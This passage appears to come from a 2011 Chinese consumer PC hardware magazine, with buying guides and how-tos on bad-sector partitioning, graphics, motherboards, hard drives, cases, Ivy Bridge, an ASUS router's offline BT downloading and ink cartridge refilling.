- 3. 右侧图例的第一行，代表一个格子为多少容量，我们这里叫它单位容量。然后使用这个公式：坏道位置=((行数-1)×50+(列数-1))×单位容量/1024。将上一步数出来的行列数字，代入到这个公式里，得到开始位置为114GB，结束位置为115GB。为了容纳误差和防止坏道扩大，我们将坏道位置前后多延长1GB空间，即开始位置为113GB，结束位置为116GB。

- 4. 然后我们打开磁盘分区魔术师，根据刚刚计算的位置，坏道在这块硬盘的中间。用鼠标右键点击下面的盘，选择“移动/调整分区大小”，在弹出的窗口中，图标的最左侧和最右侧都可以拖拽。(如图2)
- 5. 通过拖拽操作，将盘靠前和靠后的容量变成未分配空间，以达到屏蔽坏道的目的。具体的公式为：靠前容量=开始位置-该盘符之前所有盘符容量之和（不包含该盘）。计算结果为84GB（113-28.7=84.3）。靠后容量=包含该盘所有盘符容量之和-结束位置，计算结果为32GB（28.7+120-116=32.7）。(如图3)
- 6. 设定完成后点击确认。这时您将看到下方的分区示意图发生了变化。然后右键点击刚刚分割完成的空白容量处，创建两个新的分区。
- 7. 最后再右键点击盘，将盘删除，全部操作完成后，再点击应用，等待完成即可。

到这里，手动分区就已经完成了。这个方法的原理就是计算坏道部分，并将坏道部分放到一个小的分区中不用。这样可以有效防止坏道区域扩大，不过当坏道出现在一个某个分区中间时，只能将这个分区分成为多个分区。

（文/魔法蝗虫）

## 融合的时代 独显、集显这么选

进入2011年，AMD和INTEL都推出了性能超过过去集成显卡数倍的新型集成显示核心，完全扭转了过去人们对集成显卡“性能弱，不能玩游戏”的印象。因此，对于显卡应该怎么选的回答，又有了新的答案。

凑巧的是，AMD和Intel新的集成显示核心都是与CPU融合到了一个芯片核心中，不同的是前者叫做“融聚”，后者叫“融合”。由于性能有了显著的提升，Intel甚至都不愿意把Sandy Bridge处理器中集成的显示核心再叫做“集成显卡”，而是创造了一个新名词“核芯显卡”。

从我们上期94页的对比评测文章中可以看到，在3DMark Vantage性能测试中Intel核芯显卡的得分为2500分左右，AMD A8-3850这款高端APU中的集成显卡得分则为3700分左右。这样的3D性能完全足够非常流畅地运行各种流行网游和竞技类游戏，例如我们使用《英雄联盟》这款现在火热的网游做过测试，在1280×1024分辨率特效全开的画质下，Intel的核芯显卡就跑出了60fps的稳定帧数。

不过这还不是全部，在与Intel技术人员的沟通中我们了解到，Intel目前已经与腾讯游戏、搜狐游戏等主流游戏厂商在30多款本地游戏中进行了合作，在游戏开发的SDK中就进行优化，未来使用核芯显卡就能流畅运行80~90%的流行游戏。不过对于一些顶级的大型3D游戏，Intel也坦言不是他们的涉足领域，那是价格更贵、耗电更高的顶级独立显卡的市场。

除了游戏性能的提升，集成显卡还有很多新功能的加入，例如Intel和AMD的集成显卡都加入了硬件加速视频转换的功能，不需要独显和CPU的帮忙便能轻松搞定高清视频的播放和转码。这些都是新技术带给玩家的实惠。

那么，哪些玩家适合集显，哪些玩家适合独显？下面我们就根据实际情况来描述一下。

### 800元以上显卡预算

从游戏测试数据来看，新的集成显卡已经拥有中档独显的性能了。基本上800元以下的独显相比这些集显都没有太大优势，而后者不光要额外花钱，还会更加费电，玩游戏时也会增加更多的风扇噪音。

而除非你的显卡预算在800元以上，并且经常要玩一些大型的单机游戏，例如《极品飞车》系列、《使命召唤》系列等，那就毫无疑问该使用独立显卡了。玩这些游戏要想获得好成绩和享受高画质，使用现有的集成显卡都还不太现实，推荐的配置至少是i5级别多核CPU加上千元左右的独立显卡。

### 网络游戏玩家

现在国内游戏市场中占绝对优势的毫无疑问就是各种网游，为了照顾广大玩家不同配置的电脑，网游对电脑性能的要求都不高（或者说宽容度很高）。例如我们前面提到的《英雄联盟》使用核芯显卡即可搞定最高画质模式，感觉比其原型《魔兽争霸3 DOTA》还要流畅；即便是《魔兽世界 巫妖王之怒》在绝大多数场景中也能流畅运行（可参考本刊第十期特别话题2）。相比单机游戏，网游更能消磨时间，陪伴玩家的时候也会更多，如果长期使用独显估计电费也是个可观的数字。如果能直接用集显就搞定，那又何乐而不为呢？

### 高清影音玩家

玩高清的玩家对3D游戏性能要求不高，但是要流畅播放高清电影对电脑的运算能力要求还是挺高的。从我们以前的测试结果来看，如果使用CPU软件解码高清视频，整个CPU都会处于全速工作状态，此时电脑的功耗会猛增10瓦~20瓦左右；而如果使用显卡的硬件加速功能，功耗几乎没有任何上升。

不过现在集成显卡也都有了硬件加速高清播放的功能，更省电意味着更静音，而集成显卡意味着更节省空间，这对于影片欣赏来说意义是非常重要的。

### 视频转码玩家

上期的特别话题2中我们讨论过视频转码的话题，很多朋友都常常把高清视频转换成手机播放的格式，但这对电脑来说却是个漫长的过程。虽然视频转码也不需要依靠独显的3D性能，但可以依靠显卡加速来大幅缩短时间。如今的集显也能担此重任，可谓实用又实惠。

（文/文洁）

## 创新、易用、人性化 从新品中看到的主板新元素

人们都说主板在电脑中的地位就像骨架在人体中的作用一样至关重要。不过很多年来其形态却基本没有进化。不同主板之间最大的区别只是上面的散热片的形状，以及新旧接口的多寡。不过从已有的一些新产品中，我们也能看到很多新的元素。

### UEFI 让新手也能玩超频

传统的主板如果想更改BIOS选项，都需要进入纯文字的设置界面，这对很多新手玩家来说有点噩梦的感觉。这个界面不能使用鼠标，而且绝大多数情况下都是英文。选项众多且充斥着专业术语。只有经验丰富的超频玩家才能明白里面的每一项功能。

这个BIOS设置界面是固化在主板的闪存芯片上的，由于其容量有限，所以只能以这种简陋的方式呈现给用户。多年前就有叫做EFI的替代方案提出，这相当于是一个简单的操作系统，提供图形化的操作界面，能让用户使用网络和更多的功能。不过EFI是安装在硬盘中的，会因为硬盘重新分区而消失。

针对这两者的优缺点，华硕在新款主板中提出了折衷方案—被称为UEFI。UEFI的使用方法与传统BIOS区别不大。而且它也是固化在主板闪存芯片中(不过其容量要大了许多)。但进入之后会发现与传统BIOS设置界面完全不一样。呈现在我们面前的是完全图形化的界面，有中文且可以使用鼠标。如果想玩超频，只要点击上面的一个图标即可，设计师早就内置了安全的超频方案。当然如果你需要传统BIOS的细致功能，可以进入专业模式。

### 要新接口更要人性化

扩展接口的丰富程度直接决定主板的功能。虽然Intel一直迟迟不肯在芯片组中提供USB 3.0，但很多主板都会以第三方芯片的方式提供USB 3.0接口。由于接口定义的变化，USB 3.0对2.0的兼容并不像当初2.0对1.1的兼容那样完美。在很多非Windows环境下插在USB 3.0接口上的设备都没法使用。现在的主板都采用USB 3.0和2.0共存的方式，但如果未来USB 3.0完全替代2.0了呢？到那时如果要安装旧操作系统就会有很多不便。如果主板制造商考虑到人性化，就应该提供消除这些使用不便的主板设计。

### “智能响应”应该更智能

Intel在Z68主板中新增了一个很实用的“智能响应”技术，可以将小容量SSD作为系统缓存，提高Windows和常用软件的运行速度。这项功能本身是十分实用的，对于拥有闲置小容量SSD的玩家来说并不增加费用，还算是废物利用。

“智能响应”的初衷是“无需用户花心思来管理，不需要关注应该将程序或者缓存放置到SSD还是机械硬盘”，看上去是简化了使用方法。但在实际启用时，需要更改多个BIOS选项，需要完全重新安装操作系统(使用Ghost备份的旧系统不能再用)，最后还需要安装多个驱动程序并且在其中设置启用“智能响应”。

如此这般折腾下来，与简单易用的原则完全是背道而驰的。虽然主板制造商对“智能响应”技术的底层无法改动，但完全可以在BIOS设置中提供更简洁的设置方案，在Windows中也可以设计更易用的管理软件。

技嘉为其Z68主板提供了一个叫EZ Smart Response的工具软件，就在一定程度上简化了智能响应的操作步骤，值得表扬。

### 集成显卡也会有春天

虽然独立显卡的性能越来越强，但运行的发热量和噪音问题一直就没有得到解决，就算电源控制做得很好的高档显卡，一旦运行游戏都会立即发出尖利的“呼啸”声。在以往的文章中我们也讨论过，大多数日常应用和一些轻量级游戏都更适合用集成显卡，省电低噪音，使用者也会感觉更舒适。而且现在Intel和AMD各自的集成显卡都有了较强的性能和丰富的功能，尤其适合日常办公和娱乐应用。集成显卡的存在与主板是高档还是低档并无关系，不过在很多技嘉的Z68主板上却找不到集显的输出接口，估计还是受到了“高端玩家不用集显”的老思维影响吧。但很明显，未来的主板提供集显接口，并不会降低主板的“身份”，反而是人性化的体现。

## 寸金寸土的空间 就买高集成度小板

在房价飞涨的年代，空间成为了一个很重要的问题，许多在外生活的“蚁族”更能体会。如果我们不需要超强的性能，只是作为客厅的HTPC观看影片，或者租房住需要经常搬家，这时我们更需要一台性能适中，且耐用性强的高集成小主机。今天我们就推荐几款集成度高同时性能主流的小主板给大家。

说到高集成度主板，肯定是图形，网络和声卡都完全集成，不用加装单独的板卡。而最理想的是连无线网卡也集成，省了网线的麻烦。这样的主板非常适合用来组装外观小巧灵活的主机，在如今也是一个流行趋势。

### 英特尔与 AMD 平台怎么选

AMD方面A75的APU平台在图形性能方面占据绝对优势。APU平台集成了AMD的传统优势，Llano A系列APU内部所融合的GPU是基于HD6500，而HD6000系列也是AMD目前最为先进的GPU产品，并且它还完美支持DirectX 11，这意味着高清播放和主流网络游戏可以轻松胜任。

英特尔方面，相比上代产品现在的Sandy Bridge核芯显卡性能提升明显，但与Llano APU相比仍存在不少差距。不过核芯显卡在视频转码方面的性能十分突出，就算是目前的高端独立显卡也望尘莫及，适合视频爱好者。

同时Sandy Bridge的CPU运算性能是强项，办公和上网比APU更有优势。

### 家庭小型主机

家庭用小主机，既要有一定性能，还要体积小巧。这里我们推荐AMD的A75高集成小板，它可以满足用户玩转几乎所有的网络游戏，高清播放，当然上网，听歌，看新闻这类基本需求就更不在话下了。

技嘉 GA-A75M-D2H

特点:四年质保

主板采用mATX板型设计，使用技嘉惯用的蓝色PCB，主板支持AMD Llano A系列APU，原生支持4个USB3.0，搭载2条DDR3 DIMM内存插槽，最大支持双通道DDR3 1866MHz内存。SATA接口方面采用A75芯片组原生的6个高速SATA3接口并支持RAID 0/1/10。

供电设计为4+1相，全板采用日系固态电容，处理器供电部分采用超低电阻式晶体管和封闭式电感，保证了处理器和内存供电部分的稳定性，并使处理器得以长时间的稳定运行，符合小机箱的环境需求。

最重要的是目前技嘉将质保提高到4年，玩家只需购买主板后在技嘉官网进行注册就可享受四年质保，并无需提供发票。

华硕F1A75-M

特点:图形化BIOS

该主板也是专为Socket FM1接口Llano APU处理器设计的，提供四条内存插槽，以及原生USB3.0接口支持。供电方面采用4+2相供电设计，搭配华硕独家EPU智能节能处理器，可以在保证提供优质供电的基础上有效降低不必要的损耗。

除了配备华硕独家EPU智能节能处理器，还加入了广受好评的图形化UEFI BIOS，初级用户也能方便地优化系统设定。另外，主板用料扎实，全面采用高品质固态电容和封闭式电感，为主板的稳定运行奠定了坚实基础，就目前价位来说的确超值。

### 客厅 HTPC 主机

HTPC平台我们更注重它的集成功能，例如WIFI，蓝牙，遥控器，HTPC视频播放软件等多多益善。在这里我们推荐英特尔的H61芯片组主板，高清转码能力强劲，播放高清视频无压力，并且功耗低发热小。

索泰迷酷H61U3 WIFI

特点:集成无线网卡

该主板采用全固态电容设计，并板载一个PCI-E X16显卡插槽，CPU供电模块采用3+1+1高规格设计，最大支持95W的1155接口酷睿 CPU，输出供电滤波全部采用日化820uF高容量低ESR，以提供高品质的供电输出。接口方面提供了e-SATA和USB 3.0双高速接口，涵盖了市场最主流的外置硬盘盒。高速无线网卡一直是迷酷主板的一大特色，双天线设计，提供最高150M的无线传输速度。显示接口为全数字式，提供SPDIF光纤输出，满足用户对AC-3和DTS数字信号采用功放解码的需求。

(文/Jason)

## 都是3TB 有什么不一样

现在同一个品牌相同容量的硬盘也分成不同转速的好几种，例如西部数据的分绿盘和蓝盘，希捷的分5900转和7200转，价格也有一定差距。笔者手上正好有两块3TB硬盘，分别是西部数据的WD30EZRS（绿盘）和希捷的ST33000651AS（7200转），所以对比测试了一下它们之间的区别。

### 第一步:拿数据说话

测试工具使用的是HD Tune专业版，只测试了文件基准一项，差距较大，基本能说明问题。由图中的对比可以看出，希捷3TB硬盘的读写速度平滑，从64KB到8192KB的单文件读写速度都超过了100MB/s，但西数产品的写入速度始终只有前者的2/3左右，只有读取速度超过了100MB/s。

考虑到大容量硬盘的用户常常拷贝体积很大的高清文件，希捷的这款3TB硬盘可以节省不少时间，是物有所值的。

### 第二步:感官体验

西数的绿盘实际走的是低功耗和静音的路线，在使用时可以明显体会到这一点。平时待机时硬盘几乎没有任何噪音，只有在拷贝大体积文件时才会出现轻微的读写声音，发热量也不算大，非常适合用来组建静音或者小体积机箱。

希捷ST33000651AS的静音其实做得也算不错，不过在拷贝大文件时声音明显要大不少，声音频率较低且很平滑，没有令耳朵不适的尖利噪音。

长时间使用之后，硬盘表面的金属壳会有发烫的现象。

(文/文洁)

# # 背板走线成潮流 机箱电源搭配帮你选

说到背板走线，这已是近年来机箱厂商不断推崇的新卖点之一，有几年DIY玩龄的玩家不难发现，大部分背板走线机箱都采用下置电源设计，顾名思义就是将普通的机箱电源在CPU上方安置改为在PCI插槽下方安置，从而达到电源与CPU的热源分离，那么这样设计到底有何优势呢？笔者带您全面了解背板走线。

## 了解背板走线的优势

一款散热效果优秀的机箱，目前最好的是中塔机箱，可以提供足够的散热空间，合理的风扇安装位置组成散热风道也是关键。当然优秀的散热风道并不是无休止的添加风扇来达成的，部件的合理安放也是非常重要的，目前最好的解决方案莫过于背板走线与下置电源，相对于传统机箱将电源放置在主板之上，电源下置可以有效的避开CPU这个最大发热源，降低电源的散热压力，CPU的热量无需电源风扇辅助散热，可以交给低速机箱风扇来解决，提供更优秀的散热方式。同时背板走线的机箱是将机箱内部繁杂的线路收纳到主机板后面的机箱背板之内，在主板对应的背板位置开孔连接电源线，带来优异风道的同时也带来了良好的视觉体验。

## 背板走线如何选择机箱电源

选购背板走线的机箱和电源时，要特别注意机箱的背板空间，这也是在选购机箱时非常重要的一个考量标准。但是往往有不少朋友对背板空间应该预留多大的空间并没有什么概念，因此就会导致当机箱买回家，发现背板空间不足，侧板无法正常安装，这点一定要注意。另外，背板走线对电源的要求也非常高。目前来说，电源线材有蛇皮包线和未包线两种，而通常我们都比较喜欢包线的电源，以为看上去比较舒服，线材并不凌乱，也好整理。但是我们忽略了一点，当你把24根电线拢成一捆的话，无疑就会增大线材的宽度，导致无法进行精细走线。

## 背板走线的注意事项

背板走线其实是一个装机经验和个人装机习惯的综合问题，所以在走背线时一定要注意一些问题。首先按照线材粗细排列先走粗线再走细线，对于背板上比较小的背板孔（比如CPU供电部分），较大的插头往往比较难以穿过，所以先弄它们。穿的时候可以用一根细铁丝捆住插头，再用手在孔的另一边牵引通过。在固定好主板以后，先走好机箱的接线（电源开关、硬盘灯等等），插好之后再安装显卡，因为往往显卡会挡住这些机箱接线的背板出口。另外部分机箱背板预留空间往往较小，导致侧盖无法正常闭合，这时要调整几根粗线不要堆叠交叉在一起，把它们理顺，尽量做到所有的线都不叠在一起，就可以盖上侧盖了。

### 背板走线搭配一

**先马绝影Ⅱ + 航嘉WD500**
**优点:**
- 性价比突出，防尘效果优异，6个大尺寸散热风扇位
- 额定500W，主动式PFC，12cm静音风扇
**缺点:**
- 不具备背板拆卸功能，拆装大型散热器需拆下主板较为繁琐

| 产品名称 | 价格 | 优点 | 缺点 |
| :--- | :--- | :--- | :--- |
| **先马绝影Ⅱ** | 328元 | 先马绝影Ⅱ是一款不可多得的背板走线机箱，它采用了神秘的红黑配色，延续了绝影的经典面板，线条硬朗棱角分明阳刚之气十足。此款机箱还提供了丰富的前置接口，包括双USB 2.0、高保真音频接口、支持SATA II（3Gb/s）的e-SATA外部串行接口，符合INTEL TAC 2.0散热规范，侧板标配双12cm风扇，带红色LED灯。箱体规格440mm×190mm×430mm，提供4个5.25吋，7个3.5吋，7个PCI；最重要的是，机箱内部采用全黑化处理，电源下置设计，并且对支持背板走线做了特殊的优化，让用户使用起来更方便。不过电源下置设计往往需要电源从机箱底部进风散热，这样更容易积攒灰尘，而绝影Ⅱ在电源独立散热风道配备了易拆装的防尘网，可谓考虑周全。 | 不具备背板拆卸功能 |
| **航嘉WD500** | 419元 | 多核WD系列是航嘉针对高端游戏市场推出的高性能、高性价比的产品，WD是Wide-voltage Design,宽幅电压设计的意思，相比市面上普通的220V only单电压型产品，内部用料更加考究，同时电压适应环境更广泛。多核WD500按照80Plus电源的规格进行设计和性能验证，并且保留了80Plus双电压的特性，同时额定功率按照45度环温设定，而非诸多品牌的25度降额设计。这款电源采用主动PFC和双管正激设计，适应90-264V全球电压环境，230V电压下，最高转换效率高达85%，在110V环境下，也达到80Plus标准。 | 无明显不足 |

### 背板走线搭配二

**鑫谷雷诺塔G1 + 安钛克VP 450P**
**优点:**
- S.C.R超级背线系统令机箱性价比超值
- 实标450W，主动PFC转化率高达86%，12cm静音风扇
**缺点:**
- 调速器旋钮手感有待加强

| 产品名称 | 价格 | 优点 | 缺点 |
| :--- | :--- | :--- | :--- |
| **鑫谷雷诺塔G1** | 269元 | 雷诺塔G1是鑫谷在2010年推出的年度大作，此款机箱的长宽高为510×195×490MM，属于典型的中塔机箱，拥有雷诺塔家族统一的电源下置+S.C.R超级背线系统，主板的背线孔高达10个，除正常大型主板可以全走背线以外，Micro-ATX小板也能获得很好支持。优秀的背线设计，让玩家可以迅速完成背板走线，散热效能也获得直线提升。除了S.C.R超级背线系统，雷诺塔还拥有多达6个大尺寸风扇位，7个硬盘安装位（兼容SSD），8个PCI插槽和9组免螺丝扣具。 | 调速器旋钮手感有待加强 |
| **安钛克VP 450P** | 299元 | Antec VP450P电源额定功率且实瓦实标为450W，采用主动PFC技术和双管正激供电架构，电源的转化率高达86%，配备双组+12V输出，每路最大可以支持18A的电流，除了必要的20+4Pin与4+4Pin以外，还提供了1个PCI-E 6pin，4个SATA接口，3个D型接口以及1个软驱接口，足以满足主流用户的需要。另外还配备了120mm双滚珠静音风扇，保证控温和散热。 | 无明显不足 |

# # 钟声再临 Ivy Bridge处理器格局前瞻

作为第一代Bloomfield核心Core i7的继任者，Sandy Bridge-E处理器尚且犹抱琵琶半遮面，Intel永不停歇的Tick-Tock钟声便再度敲响，新一代内核架构Ivy Bridge在9月的IDF上已经公开露面，更多相关技术特性也得以解析。

根据目前得到的消息，Ivy Bridge将会被称为第3代酷睿处理器，这意味着其将继续使用一直延续的Core i系列的命名方式，相比于SNB-E处理器高高在上的旗舰定位，作为SNB接班人的Ivy Bridge显然更值得主流消费者们去关心和了解。

## 再度升级的制程工艺

目前已知Ivy Bridge在内核微架构上相比SNB并不会有革命性的变化，只在细节上进行一定的优化和增强，其最大的变革来源于制程工艺的再度升级——由32nm进化至22nm，并引入划时代的3D Tri-Gate立体晶体管堆叠技术。两种新工艺的结合，将使得Ivy Bridge在芯片效能上得到大幅提升，而在同等性能下，芯片功耗则仅为32nm平面晶体管工艺芯片的一半左右。

**小贴士:**
什么是制程: 制程即处理器CMOS芯片的制造工艺。通常被误解为以蚀刻芯片电路时的激光光源波长来表示。实际上，制程是指芯片中晶体管之间导线的连线宽度，简称线宽，而22nm是个什么概念呢？仅相当于普通成年人头发丝直径的1/2270。
仅考虑32nm工艺到22nm工艺的成比例进步，那么同等晶体管规模下，芯片面积可缩小47.3%。但由于Ivy Bridge在晶体管数量上的提升，因此其芯片面积将不会缩小如此高的比例。据Intel官方表示，Ivy Bridge的晶体管数量将会增加至大约14亿个，相比SNB的11.6亿个提升约20%。

## 图形模块性能变化不大

SNB处理器首次将GPU模块引入了CPU芯片内部，同时规格和性能相比Intel以往的集成显示核心有了数倍的提升，并得到了大量消费者的认可，Ivy Bridge无疑将继续这一路线，并对再度完善图形模块的设计。

Ivy Bridge的图形模块仍然延续SNB的整体架构，且同样划分为高低两档，但其中定位较高的型号将会具有16个执行单元（SNB最多12个）。不过在具体的性能提升上可能幅度不大，Intel内部人士透露约在5%左右。重要的是，新的GPU将对DirectX 11提供完善的支持，其附带的诸如DirectCompute等特性颇有价值，并且未来还会进一步引入OpenCL，从而对并行加速计算提供更好的支持。

## 可配置TDP

可配置TDP（热设计功耗）是Ivy Bridge引入的新特性。该特性将允许同一颗处理器拥有多个不同的TDP，并可根据运行触发器进行动态转换，从而提供给用户更大的性能/功耗适用空间。

以移动平台的Ivy Bridge处理器为例：ULV超低压版本的正常TDP是17W，最高可扩展至35W，向下可降低至13W；XE高端版本的正常TDP是55W，扩展/降低范围则为65W/45W。这意味着厂商可以简化CPU采购的方案，同一型号的处理器，如果散热条件允许则可以调高TDP以达到更强性能。而如果想放置到更紧凑的设备中，则可以调低TDP。因此未来消费者在选购产品的时候，仅仅了解处理器型号已经不够，还需要清楚地知道处理器的TDP等级，以免买到了散热受限的产品，而在性能上无法满足自己的需求。

## 芯片组与超频

Ivy Bridge已经确定将继续沿用LGA1155接口，并理论上提供对6系列芯片组的兼容，但若想完全体验新平台的所有特性，7系列芯片组依然是不二的选择。

抛开配合SNB-E的X79，面向Ivy Bridge的7系列芯片组包括Z77、Z75、H77等型号，依然沿用6系列芯片组的PCH单芯片设计。7系列芯片组将原生支持USB 3.0接口，每款都是最多4个；SRT固态硬盘加速支持覆盖到H77，而SATA接口，芯片组PCI-E总线、处理器PCI-E总线、RAID等均维持与6系列芯片组相同的水平。备受期待的PCI-E 3.0总线目前尚无确切消息。

微架构的承袭注定了Ivy Bridge恐怕很难开放基准频率，但倍频上限从57x提升到了63x，也算是给超频玩家一些安慰，值得期待的是，Intel表示在Ivy Bridge平台上，倍频的调节无需重启即可生效。

依照惯例，微架构的小幅优化将很难带来性能的跨越式提升，更多的是带来功耗和发热量方面的明显进步，从目前透露的消息来看，Ivy Bridge也依然遵循了这一传统，同SNB一样，Ivy Bridge也同样会划分为面向主流的IVB与面向高端市场的IVB-E，后者作为SNB-E的继任者，将于2013年才会正式登场。而Ivy Bridge的主流型号，也要在2012年的3、4月份才会正式发售。

# # 功能稍简陋 速度挺不错——华硕RT-N56U路由器离线下载功能体验

一些定价比较高档的路由器都会提供文件共享或者离线下载的功能，不用打开电脑也能用BT下载电影，省电又省事，听上去真不错。不过具体好不好用呢？今天我们就用华硕RT-N56U全程体验一番。

路由器的离线下载和迅雷那种收费的“离线下载”完全是两个概念。我们今天体验的离线下载实际上是将路由器当做一台小的电脑在用。路由器中包含了一颗低功耗的CPU，运行着自己的操作系统。如果再用USB接口连上移动硬盘，那就具备了作为一台“电脑”的基本要素。制造商只需要在路由器的操作系统中安装BT下载的功能，就能实现离线下载。

## 移动硬盘兼容性考察

华硕RT-N56U带有两个USB 2.0接口，意味着它可以同时连接两个USB存储设备。路由器支持的硬盘种类和格式肯定不会像电脑那么多，为此笔者也考察了一下。普通的USB移动硬盘RT-N56U都可以正常识别，对NTFS格式的硬盘读写都没有问题，而且2TB的大硬盘也能正常使用。不过对U盘的兼容性就要弱一些，如果你把U盘格式化成exFAT或者NTFS，这款路由器都不能识别，唯有FAT32可以正常使用。这就意味着插U盘下载的时候，单个文件不能超过4GB。

## 多种方式访问硬盘

连上移动硬盘之后，需要用网页浏览器访问路由器，进入主界面上的“AiDisk”进行设置，让我们可以在Windows中访问这块硬盘。

设置过程十分简单，按提示一步步来就行了。设置好之后路由器会自动建立一个FTP，我们在电脑上可以用FTP工具或者网上邻居访问其中的文件。在Windows任务管理器中输入“\\192.168.2.1”就通过网上邻居进入了路由器自带的硬盘；如果用FlashFXP之类的FTP工具，则需要输入“ftp://192.168.2.1”。两种方法都可以管理硬盘中的文件。

华硕还提供一个域名服务，在路由器中设置好之后，可以利用这个域名在公司里也能访问家中路由器连上的硬盘，这点十分不错。

通过网上邻居拷贝RT-N56U的硬盘中文件时，速度最高只有4-5MB，看来要传输大量文件时还是直接把移动硬盘接到电脑上更快。

## 工具软件略显简单

虽然我们可以通过网页浏览器访问华硕RT-N56U的路由器设置界面，但这个界面却没有任何与下载功能相关的东西。必须安装华硕提供的Utility工具软件才能实现离线下载。安装好之后有两个与下载有关的东西，一个是Download Master软件，另一个则是浏览器右键菜单。

Download Master是管理华硕RT-N56U下载功能的主界面，但功能却异常简单，只有少数的几个选项。而且每次打开之后都要手动连接（也可以设为自动，但同样需要耗费时间去连接），才能看到路由器中的工作情况。点击“新增”按钮我们会发现它支持三种下载协议：HTTP、FTP和BT，而在现在非常流行的电驴却没有提供支持，这一点就太让人遗憾了。而在下载BT的时候也有点不太人性化的地方，不能自己选择下载内容，因为现在的BT种子里往往包含一些垃圾图片和文档，我们一般只会选择其中主要的文件下载。

浏览器右键菜单则是另一种下载方式，如果在网上发现某个想下载的东西，点一下右键选择“Download by ASUS Download”就能直接下载到路由器的硬盘中。不过这个功能显得不太实用，因为网页里的下载我们直接就保存到电脑上了。

## 下载表现考核

通过相同BT种子同时用电脑和华硕RT-N56U下载的对比测试来看，感觉两者的区别没啥区别。一般来说，刚开始下载的时候都是速度比较慢，过了半小时之后，就非常快了。笔者家中是2M的ADSL，用华硕RT-N56U同时下载两个BT文件，只要种子够热门，下载速度都能稳定保持在200K/s以上，已经达到2M ADSL的峰值了。另一个表现更为抢眼，那就是功耗。如果只插着U盘下载，华硕RT-N56U的功耗只有6W左右，使用1.8英寸移动硬盘，也只有9W多；换成常见的2.5英寸硬盘，也只有十几W。这样的功耗相比电脑下载真是太省电了！

总结：用路由器离线下载BT确实十分方便，不会让电脑系统拖慢，还十分省电。从华硕RT-N56U的情况来看，不支持电驴是一大硬伤，管理软件的功能也有待丰富；不过其最重要的表现——下载速度还是非常不错的。

（文/文洁）

# # 不必盲从跟风 主板最重要是合适

目前是英特尔Z68芯片大热之际，厂商又再接再厉的推出各种不同型号的Z68主板。很多朋友装机时都首选Z68，那么我们真的需要Z68吗？新产品我们是否要跟风购买呢？P67是否还有购买价值，H61与H67又是为谁而准备的呢？带着以上几个问题笔者为您详细分析我们该如何选择SNB主板。

## Z68与P67存在的差别

首先我们从规格上来看Z68，可以理解为P67+H67的升级产品，它拥有H67的视频输出功能，又具备P67对K系列处理器的超频功能，并在这两种功能外新加入了名为RST SSD Caching（智能响应系统）的功能。此功能可将SSD硬盘作为传统硬盘的缓存来使用，玩家们称之为混合硬盘系统。

## 配备SSD固态硬盘的玩家首选Z68

由于Z68芯片组对于SSD固态硬盘做出了RST SSD Caching（智能响应系统）的支持。玩家只需要购买小容量SSD固态硬盘，用它来作为缓存就可体验SSD带来的读取快感。值得庆幸的是此功能针对市面上所有SSD硬盘开放（并非英特尔SSD专用），很大程度上解决了SSD高价格高性能的两高问题。如果您打算在新平台上使用SSD固态硬盘，那么Z68一定是您的首选平台。除此之外，如果您是高清发烧友或移动影音玩家，并且需要经常进行视频转码，笔者同样推荐您购买Z68。它搭载的Lucid Virtu技术可以在核显和独显之间进行自由切换，令您可以在同一平台上得到独显的高速游戏体验与核显的快速视频转码，可谓游戏娱乐两不误。

+   **技嘉Z68XP-UD3R**
    - 优点: IO接口齐全 超频性能优越 四年质保 简便安装智能响应系统
    - 不足: 无明显不足
+   **华硕P8Z68-V LX**
    - 优点: 性价比高 一线品质 UEFI图形化BIOS
    - 不足: 相比标准版做了一些简化 但基本功能齐全

从市场上来看，目前P67并没有因Z68的热销而导致销量骤跌，其原因在于一些玩家对英特尔K系列处理器超频很感冒，但硬盘性能要求不高，一两年内也不想升级固态。做视频转码也很少。这一玩家群体会选择P67。比较同价位的Z68与P67来看，P67的做工和用料以及产品附加值均高于Z68。从以上角度综合考虑，我们为什么要为用不到的功能而买单呢？选择P67是明智之选。

## 玩超频 无固态 性能优先

+   **华硕P8P67**
    - 优点: 超频调节非常丰富 功能强大且完善 IO接口丰富
    - 不足: 无明显不足

## 选对主板让您省下几百元大钞

其实在电脑的日常使用中，大部分用户对系统的启动速度并不是过分的苛求，对游戏的载入时间也不是十分的在意，但对于游戏的体验效果与平台的稳定性就有一定的要求了。对于这样的玩家，笔者推荐选择H61或H67并搭配独立显卡来组合。相信很多读者会问，为什么不用P67呢？原因很简单。就目前P67的价位与Z68基本贴近，选择P67没有任何优势。相反H61与H67配合中端显卡同样可以得到不错的游戏体验，并且在主板的预算上可以节省几百元，把这笔费用补贴到显卡上岂不是更划算。

+   **技嘉GA-H61M-USB3-B3**
    - 优点: 10个USB3.0支持 Realtek ALC889 8声道声卡
    - 不足: 只有一个PCIE 16X接口

总结：目前在选择主板上，我们常常有个误区，总是选择功能最全，价格最低，做工最好的主板，其实没有必要，只要够用能满足我们的需求就可以了。需要智能响应、高速智能转码可以选择Z68，需要对K系列处理器进行超频可以选择P67，如果既不需要超频也不需要这些附加功能，我们选择H61或H67就足以满足日常应用了。如果对游戏性能有一定需求，我们可将主板省下来的费用转移到购买更好的显卡上，小编也希望您好钢用在刀刃上，选择主板要理智。

# # 居家省钱妙招 自己动手灌墨盒

家里有打印机的朋友都知道，现在喷墨打印机都非常便宜，墨盒这些耗材才是最大的开销。笔者的打印机使用的是惠普HP802S墨盒，在经过一番研究之后成功摸索出自己灌墨盒的方法，可以给家里节省不少的费用。

首先，辨别你的墨盒是否可以自己灌墨，最快的方法就是揭开标签，看是否有数个小孔，如果有那就可以接下来继续操作了。常见的墨盒有惠普CH563ZZ、HP802s和佳能PG830、CL83等型号。

然后就是准备墨水了，可以在淘宝网或电脑城购买到，品牌有另色鬼、天威、西索等，不同牌子区别不大，可以随便挑选。墨水有瓶装墨水和可直接注射的墨水两种，如果是瓶装的就需要使用注射器了。通常购买墨水时会送相应数量的注射器，大家在购买时可以向卖家索要。注意不同品牌和颜色的墨水绝对不能共用一个注射器。

最后，还要准备好纸巾和一次性塑料手套，这种墨水很难洗掉，操作时尽量不要溅到外面。

下面就正式开始灌墨了，墨盒上有5个孔，其中3个里面有海绵，墨水就是要灌到这3个里面。注射器装好墨水，针头对准含有海绵的注墨孔插到底，缓缓注入墨水。速度不要太快，以便墨盒的海绵充分吸收墨水，最后将标签贴回，注意不要将注墨孔堵住。

灌墨完成后擦干净墨盒，装回打印机上，打开打印机电源，再使用打印机的应用程序进行墨盒清理一两次就可以使用了。

## 推倒重来的AMD推土机

